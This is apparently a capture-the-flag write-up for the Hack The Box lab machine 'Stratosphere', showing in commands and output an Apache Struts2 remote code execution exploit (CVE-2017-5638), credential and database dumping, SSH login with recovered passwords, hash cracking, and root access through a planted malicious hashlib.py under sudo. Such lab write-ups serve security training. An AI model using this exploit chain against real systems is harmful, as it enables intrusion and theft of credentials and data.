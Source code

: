 129 - Stratosphere
==================

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS -sV -O --top-ports=200 10.10.10.64
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-18 16:51 CEST
Nmap scan report for 10.10.10.64
Host is up (0.043s latency).
Not shown: 197 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
80/tcp   open  http
8080/tcp open  http-proxy
[CUT CUT CUT]
```

A `/Monitoring/` directory is found after some enumeration and a login page `/Monitoring/Login.action`. Burp active scan detects a Struts2 vulnerability in the page (CVE-2017-5638). This can be exploited using the following script <https://raw.githubusercontent.com/mazen160/struts-pwn/master/struts-pwn.py> or with <https://packetstormsecurity.com/files/141576/Apache-Struts-2-2.3.x-2.5.x-Remote-Code-Execution.html>

First verify that the page is vulnerable:
```bash
❯❯❯ python struts-pwn.py --check -u http://10.10.10.64/Monitoring/Login.action

[*] URL: http://10.10.10.64/Monitoring/Login.action
[*] Status: Vulnerable!
[%] Done.
```

Then see who we are:
```bash
❯❯❯ python struts-pwn.py -u http://10.10.10.64/Monitoring/Login.action -c 'id'                       ⏎

[*] URL: http://10.10.10.64/Monitoring/Login.action
[*] CMD: id
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

[%] Done.
```

Getting the tomcat users configuration:
```bash
❯❯❯ python struts-pwn.py -u http://10.10.10.64/Monitoring/Login.action -c 'cat conf/tomcat-users.xml'

[*] URL: http://10.10.10.64/Monitoring/Login.action
[*] CMD: cat conf/tomcat-users.xml
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

[CUT CUT CUT]
<user username="teampwner" password="cd@6sY{f^+kZV8J!+o*t|<fpNy]F_(Y$" roles="manager-gui,admin-gui" />
</tomcat-users>
```

db_connect
```
[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin
```

Looking at the running process we can see a mysql. Let's log on the server with the "users" credentials and see what DB are present:
```bash
❯❯❯ python struntsrce.py --target='http://10.10.10.64/Monitoring/Login.action' --cmd='mysql -uadmin -padmin -e "show databases;" > /tmp/r1 && cat /tmp/r1'

[+] Target: http://10.10.10.64/Monitoring/Login.action
[+] Executing: mysql -uadmin -padmin -e "show databases;" > /tmp/r1 && cat /tmp/r1


Database
information_schema
users
```

OK, a DB `users`, what tables are present?
```bash
❯❯❯ python struntsrce.py --target='http://10.10.10.64/Monitoring/Login.action' --cmd='mysql -uadmin -padmin -e "use users; show tables;" > /tmp/r1 && cat /tmp/r1'

[+] Target: http://10.10.10.64/Monitoring/Login.action
[+] Executing: mysql -uadmin -padmin -e "use users; show tables;" > /tmp/r1 && cat /tmp/r1


Tables_in_users
accounts
```

Let's get everything that's in this table:
```bash
❯❯❯ python struntsrce.py --target='http://10.10.10.64/Monitoring/Login.action' --cmd='mysql -uadmin -padmin -e "use users; select * from accounts;" > /tmp/r1 && cat /tmp/r1'

[+] Target: http://10.10.10.64/Monitoring/Login.action
[+] Executing: mysql -uadmin -padmin -e "use users; select * from accounts;" > /tmp/r1 && cat /tmp/r1


fullName	password	username
Richard F. Smith	9tc*rhKuG5TyXvUJOrE^5CK7k	richard
```

And this is the password of the user named `richard`. From here, it is easy to get the user flag:
```bash
❯❯❯ ssh richard@10.10.10.64
Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 19 08:41:42 2018 from 10.10.15.80
richard@stratosphere:~$ cat user.txt
e610b298611fa732fca1665a1c02336b
```

## Privilege escalation
In the user directory we have a `test.py` file that contains a kind of quizz:
```python
#!/usr/bin/python3
import hashlib


def question():
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
    md5 = hashlib.md5()
    md5.update(q1.encode())
    if not md5.hexdigest() == "5af003e100c80923ec04d65933d382cb":
        print("Sorry, that's not right")
        return
    print("You got it!")
    q2 = input("Now what's this one? d24f6fb449855ff42344feff18ee2819033529ff\n")
    sha1 = hashlib.sha1()
    sha1.update(q2.encode())
    if not sha1.hexdigest() == 'd24f6fb449855ff42344feff18ee2819033529ff':
        print("Nope, that one didn't work...")
        return
    print("WOW, you're really good at this!")
    q3 = input("How about this? 91ae5fc9ecbca9d346225063f23d2bd9\n")
    md4 = hashlib.new('md4')
    md4.update(q3.encode())
    if not md4.hexdigest() == '91ae5fc9ecbca9d346225063f23d2bd9':
        print("Yeah, I don't think that's right.")
        return
    print("OK, OK! I get it. You know how to crack hashes...")
    q4 = input("Last one, I promise: 9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943\n")
    blake = hashlib.new('BLAKE2b512')
    blake.update(q4.encode())
    if not blake.hexdigest() == '9efebee84ba0c5e030147cfd1660f5f2850883615d444ceecf50896aae083ead798d13584f52df0179df0200a3e1a122aa738beff263b49d2443738eba41c943':
        print("You were so close! urg... sorry rules are rules.")
        return

    import os
    os.system('/root/success.py')
    return

question()
```

This is cool because with sudo we are allowed to run this script as shown by:
```bash
richard@stratosphere:~$ sudo -l
Matching Defaults entries for richard on stratosphere:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User richard may run the following commands on stratosphere:
    (ALL) NOPASSWD: /usr/bin/python* /home/richard/test.py
```

Let's crack those hashes:
```
MD5: kaybboo!
SHA1: ninjaabisshinobi
MD4: legend72
BLAKE2b512: Fhero6610
```

But at the end of the script, the `/root/success.py` script is not found. But we have another way to escalate. We can leverage the fact that the script imports a library. Let's create a malicious `hashlib.py` file in the same directory. The content of the file is:
```python
#!/usr/bin/python3

f = open('/root/root.txt', 'r')
print(f.read())
f.close()
```

Now we can run `test.py` with sudo and hijack the library import to read the flag:
```bash
richard@stratosphere:~$ sudo /usr/bin/python3 /home/richard/test.py 
d41d8cd98f00b204e9800998ecf8427e

Solve: 5af003e100c80923ec04d65933d382cb
^CTraceback (most recent call last):
  File "/home/richard/test.py", line 38, in <module>
    question()
  File "/home/richard/test.py", line 6, in question
    q1 = input("Solve: 5af003e100c80923ec04d65933d382cb\n")
KeyboardInterrupt
```
